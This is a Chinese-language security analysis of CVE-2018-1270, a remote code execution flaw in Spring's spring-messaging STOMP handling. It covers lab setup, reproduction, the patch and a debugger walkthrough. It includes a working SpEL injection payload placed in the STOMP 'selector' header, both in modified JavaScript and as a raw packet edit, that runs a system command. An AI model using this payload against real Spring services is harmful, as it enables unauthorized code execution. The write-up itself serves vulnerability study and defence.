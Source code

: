 # spring-messaging远程代码执行漏洞分析(CVE-2018-1270)
## 概述
2018年4月5日，Pivotal Spring官方发布安全公告，Spring框架中存在三个漏洞。其中编号为CVE-2018-1270的漏洞可导致远程代码执行，漏洞存在于spring-message模块。


### 影响版本
- Spring Framework 5.0 to 5.0.4.
- Spring Framework 4.3 to 4.3.14


## 环境搭建
利用官方示例 https://github.com/spring-guides/gs-messaging-stomp-websocket ，git clone后checkout到未更新版本：

    git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
    
    git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3

打开IDEA进行Maven配置

![](https://i.imgur.com/ht7D5px.png)

直接运行项目，环境搭建成功

![](https://i.imgur.com/06MDIBy.png)


## 漏洞复现
Spring框架中通过spring-messaging模块来实现STOMP（Simple Text-Orientated Messaging Protocol），STOMP是一种封装WebSocket的简单消息协议。攻击者可以通过建立WebSocket连接并发送一条消息造成远程代码执行。如果使用了Spring Security项目中的权限认证，可以在一定程度上增加漏洞利用难度。
### 1.执行Javascript代码进行复现
示例项目是通过静态资源app.js运行在客户端与服务器做websocket交互，使用connect()函数建立Stomp链接。此方法适合在知道代码如下：

    function connect() {
    	var socket = new SockJS('/gs-guide-websocket');
    	stompClient = Stomp.over(socket);
    	stompClient.connect({}, function (frame) {
    		setConnected(true);
    		console.log('Connected: ' + frame);
    		stompClient.subscribe('/topic/greetings', function (greeting) {
    			showGreeting(JSON.parse(greeting.body).content);
    		});
    	});
    }

Stomp协议规范中通过指定selector对订阅的信息进行过滤。增加一个header头部，添加selector项，value为payload。如下：

    function connect() {
    	var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    	var socket = new SockJS('/gs-guide-websocket');
    	stompClient = Stomp.over(socket);
    	stompClient.connect({}, function (frame) {
    		setConnected(true);
    		console.log('Connected: ' + frame);
    		stompClient.subscribe('/topic/greetings', function (greeting) {
    			showGreeting(JSON.parse(greeting.body).content);
    		},header);
    	});
    }

控制台使用上述JS代码，并执行开启连接
![](https://i.imgur.com/MQ9tvL7.png)

随意输入字符串进行发送，成功命令执行

![](https://i.imgur.com/S70EIKT.png)


### 2.拦截修改数据包
打开burpsuite进行抓包，点击connect。当捕获到下列数据时
![](https://i.imgur.com/i2hUAsN.png)

增加payload：`\nselector:T(java.lang.Runtime).getRuntime().exec('calc.exe')`
![](https://i.imgur.com/dWdhThM.png)

接着发送数据，成功执行payload
![](https://i.imgur.com/CTaac3C.png)

## 补丁分析

地址如下：

https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#diff-ca84ec52e20ebb2a3732c6c15f37d37a

删除了StandardEvaluationContext引用，采用了SimpleEvaluationContext。StandardEvaluationContext可以执行任意SpEL表达式，Spring官方在5.0.5之后换用SimpleEvaluationContext，用于实现简单的数据绑定，保持灵活性减少安全隐患
![](https://i.imgur.com/XQEvPrn.png)


## 漏洞分析

handleMessageInternal对消息进行处理，registerSubscription注册订阅者,最后调用DefaultSubscriptionRegistry函数对header参数进行处理，对selector值进行了解析，并将其保存至这次会话中。

首先进入org/springframework/messaging/simp/broker/DefaultSubscriptionRegistry.java，找到addSubscriptionInternal下断点进行分析
![](https://i.imgur.com/lamnH8l.png)

执行JS，捕获到message数据

![](https://i.imgur.com/jARmqNY.png)

向下执行，this.getSelectorHeaderName()执行结果为selector
![](https://i.imgur.com/c4GU0P5.png)
从header中获取到注入的表达式，赋值给selector
![](https://i.imgur.com/iNcdB43.png)
对表达式进行了解析
![](https://i.imgur.com/zGbAXn7.png)

接着解析后的表达式传到addSubscription，与此次会话绑定在一起。如图所示，此次连接对应的sessionId为hprhnwtn，subsId为sub-0
![](https://i.imgur.com/qTCUtUi.png)

spring进行了一系列处理后，开始向消息的订阅者分发消息，在org/springframework/messaging/simp/broker/SimpleBrokerMessageHandler的sendMessageToSubscribers函数处下断点。之后在http://localhost:8080/中输入任意字符串，点击send
![](https://i.imgur.com/iT4aGdK.png)
跟进findSubscriptions方法，message保存了此次连接/会话的相关信息
![](https://i.imgur.com/zrMmMRw.png)

message传入findSubscriptionsInternal，继续跟进
![](https://i.imgur.com/Ufn4aIO.png)

执行this.destinationCache.getSubscriptions，返回了一对值。分别对应sessionId和subsId
![](https://i.imgur.com/z2T7seM.png)

进入filterSubscriptions函数，两次getSubscriptions操作，此时取出了先前的配置信息。通过getSelectorExpression，获得表达式
![](https://i.imgur.com/wv8EQT5.png)
执行到expression.getValue(context, Boolean.class)，执行了spel表达式，远程命令执行成功。
![](https://i.imgur.com/RU0NR92.png)


## 参考链接

- https://xz.aliyun.com/t/2252
- https://pivotal.io/security/cve-2018-1270
